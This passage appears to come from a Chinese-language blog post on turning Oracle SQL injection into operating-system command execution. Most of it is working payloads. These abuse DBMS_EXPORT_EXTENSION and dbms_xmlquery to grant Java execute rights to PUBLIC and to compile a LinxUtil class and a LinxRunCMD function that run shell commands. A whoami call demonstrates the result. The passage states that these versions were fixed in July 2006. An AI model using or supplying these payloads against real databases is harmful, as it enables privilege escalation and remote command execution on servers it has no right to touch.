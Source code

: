 (2) 赋予Java权限

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission(''''''''PUBLIC'''''''', ''''''''SYS:java.io.FilePermission'''''''',''''''''<>'''''''', ''''''''execute'''''''');end;'''';END;'';END;--','SYS',0,'1',0) from dual
```

(3) 创建函数

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name''''''''LinxUtil.runCMD(java.lang.String) return String'''''''';'''';END;'';END;--','SYS',0,'1',0) from dual
```

(4) 赋予函数执行权限

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant all on LinxRunCMD to public'''';END;'';END;--','SYS',0,'1',0) from dual
```

(5) 执行

```
select sys.LinxRunCMD('/bin/bash -c /usr/bin/whoami') from dual
```

[![extension_linxruncmd_01](https://redn3ck.github.io/2018/04/25/Oracle%E6%B3%A8%E5%85%A5-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C-Shell%E5%8F%8D%E5%BC%B9/extension_linxruncmd_01.png)](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/extension_linxruncmd_01.png)

[extension_linxruncmd_01](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/extension_linxruncmd_01.png)



#### 2、dbms_xmlquery.newcontext()

此方法成功前提

> - 影响版本：Oracle 8.1.7.4, 9.2.0.1-9.2.0.7, 10.1.0.2-10.1.0.4, 10.2.0.1-10.2.0.2, XE(Fixed in CPU July 2006)

即**方法1** 中DBMS_EXPORT_EXTENSION存在漏洞情况下，否则赋予权限时无法成功

**(1) 创建java包**

```
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual;
```
